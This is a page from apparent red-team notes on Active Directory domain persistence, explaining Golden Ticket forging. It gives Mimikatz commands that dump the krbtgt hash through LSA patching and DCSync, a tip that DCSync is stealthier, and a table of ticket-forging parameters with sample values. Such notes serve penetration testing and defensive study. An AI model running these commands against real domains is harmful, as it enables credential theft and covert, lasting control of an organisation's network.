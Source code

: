 ```yaml
---
title: Domain Persistence
category: Active Directory
order: 4
---
```


There is much more in Active Directory than just a Domain Admin. Once we have domain admin privileges new avenues of persistence, escalation to enterprise admin and attacks across trust appears.

These are some techniques to make a persistence on a domain.

# Golden Ticket

A golden ticket is signed and encrypted by the hash of `krbtgt` account which makes it a valid TGT ticket. Since user account **validation is not done** by the KDC until **TGT** is **older than 20 minutes**. So we can use even deleted/revoked accounts.

To conclude, the `krbtgt` user hash could be used to impersonate any user with any privileges from even a non-domain machine.

First we need to obtain the `krbtgt` hash:
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName dc.corp.local
Invoke-Mimikatz -Command '"lsadump::dcsync /user:corp\krbtgt"'
```
> **RedTeam Note**: Using DCSync option does not need code execution on the target DC. For that reason is more silent than dumping the LSA. DCSync is a technique which allows an attacker to hijack the Domain Controller account and replicate data such as passwords of all domain controllers.

After that we need to create the ticket.

* **Invoke-Mimikatz**


|               **Parameter**              |                                                              **Description**                                                              |
|:----------------------------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------:|
| /user:Administrator                      | Username fot which TGT is generated                                                                                                       |
| /domain:corp.local                       | Domain FQDN                                                                                                                               |
| /sid:S-1-5-21-268341927-4156873456-1784235843 | Domain SID                                                                                                                                |
| /krbtgt:a9b30e5b0dc865eadcea9411e4ade72d | NTLM(RC4) hash of the krbtgt account. Use /aes128 and /aes256 for AES keys.                                                               |
| /id:500                                  | User RID (default 500)                                                                                                                    |
| /groups:513                              | Group ID (default 512,513,518,519,520)                                                                                                    |
| /startoffset:0                           | Optional - When the ticket is available (Default 0 - right now, -10 - Available since 10minutes ago)                                      |
| /endind:600                              | Optional - The default AD setting is about 10 hours (10h * 60min = 600).                                                                  |
| /renewmax:10080                          | Optional - Mimikatz by default create a ticket lifetime with 10 years of renewal. Default AD setting is 7 days (7d * 24h * 60min = 10080) |
